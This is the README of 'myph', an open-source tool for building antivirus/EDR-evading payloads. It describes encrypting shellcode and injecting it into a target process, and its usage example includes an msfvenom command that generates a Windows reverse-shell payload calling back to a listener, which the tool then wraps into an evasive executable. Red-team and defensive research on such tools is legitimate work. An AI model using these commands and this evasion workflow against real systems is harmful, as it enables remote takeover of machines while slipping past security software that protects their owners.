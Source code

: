 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes. Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
  -l, --sleep-time uint      sleep time before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CreateThread) (default "CRT")
  -v, --version              version for myph
```

#### Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~
A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
